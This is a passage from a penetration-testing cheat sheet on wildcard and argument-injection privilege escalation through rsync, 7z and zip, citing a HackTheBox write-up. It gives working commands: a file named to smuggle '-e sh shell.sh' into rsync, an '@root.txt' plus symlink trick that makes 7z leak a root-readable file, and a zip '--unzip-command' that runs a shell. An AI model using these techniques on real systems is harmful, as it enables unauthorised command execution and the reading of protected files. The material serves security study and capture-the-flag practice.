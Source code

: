 **Execute arbitrary commands:**

```
Interesting rsync option from manual:

 -e, --rsh=COMMAND           specify the remote shell to use
     --rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```
touch "-e sh shell.sh"
```

You can exploit this using [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_rsync _attack)_ More info in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## 7z

In **7z** even using `--` before `*` (note that `--` means that the following input cannot treated as parameters, so just file paths in this case) you can cause an arbitrary error to read a file, so if a command like the following one is being executed by root:

```
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```

And you can create files in the folder were this is being executed, you could create the file `@root.txt` and the file `root.txt` being a **symlink** to the file you want to read:

```
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```

Then, when **7z** is execute, it will treat `root.txt` as a file containing the list of files it should compress (thats what the existence of `@root.txt` indicates) and when it 7z read `root.txt` it will read `/file/you/want/to/read` and **as the content of this file isn't a list of files, it will throw and error** showing the content.

_More info in Write-ups of the box CTF from HackTheBox._

## Zip

**Execute arbitrary commands:**

```
zip name.zip files -T --unzip-command "sh -c whoami"
```

</div></div>


## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">

<div class="markdown-embed-title">
